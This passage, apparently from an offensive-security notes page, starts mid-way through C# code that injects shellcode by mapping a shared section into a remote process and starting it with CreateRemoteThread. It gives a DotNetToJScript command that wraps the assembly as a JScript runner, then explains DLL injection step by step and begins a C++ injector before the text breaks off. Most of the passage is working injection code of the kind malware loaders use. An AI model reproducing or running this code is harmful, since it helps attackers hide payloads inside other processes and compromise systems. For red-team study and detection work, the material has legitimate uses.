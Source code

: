 ```csharp
        uint viewSizeL = uLen;
        ulong sectionOffsetL = new ulong();
        long mStatusL = NtMapViewOfSection(sHandle, lHandle, ref baseAddrL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out viewSizeL, 2, 0, 0x04);

        IntPtr baseAddrR = new IntPtr();
        uint viewSizeR = uLen;
        ulong sectionOffsetR = new ulong();
        long mStatusR = NtMapViewOfSection(sHandle, pHandle, ref baseAddrR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out viewSizeR, 2, 0, 0x20);

        Marshal.Copy(buf, 0, baseAddrL, len);

        CreateRemoteThread(pHandle, IntPtr.Zero, 0, baseAddrR, IntPtr.Zero, 0, IntPtr.Zero);

        uint uStatusL = NtUnmapViewOfSection(lHandle, baseAddrL);

        int clStatus = NtClose(sHandle);
    }
}
```
```cmd
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
## DLL Injection

### DLL Injection Overview

**DLL Injection** is a technique used to run arbitrary code in the address space of another process. This method is commonly used by malware to gain control over another process or by developers to extend the functionality of applications without modifying their source code.

**How DLL Injection Works:**

1. **Identifying the Target Process**: The first step is identifying the process into which the DLL will be injected.
2. **Allocating Memory**: Allocate memory in the target process's address space where the DLL will be loaded.
3. **Writing the Path of the DLL**: Write the path of the DLL to the allocated memory in the target process.
4. **Creating a Remote Thread**: Create a remote thread in the target process that calls `LoadLibrary`, passing the address of the DLL's path, causing the DLL to be loaded into the target process.
5. **Executing the Payload**: Once the DLL is loaded, the operating system will execute its entry point (typically `DllMain`), which can contain the payload.

### C++ Example of DLL Injection

```cpp
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>

DWORD GetProcessIdByName(const char* processName) {
    PROCESSENTRY32 processEntry;
    processEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (Process32First(snapshot, &processEntry)) {
        do {
            if (strcmp(processEntry.szExeFile, processName) == 0) {
                CloseHandle(snapshot);
                return processEntry.th32ProcessID;
            }
        } while (Process32Next(snapshot, &processEntry));
```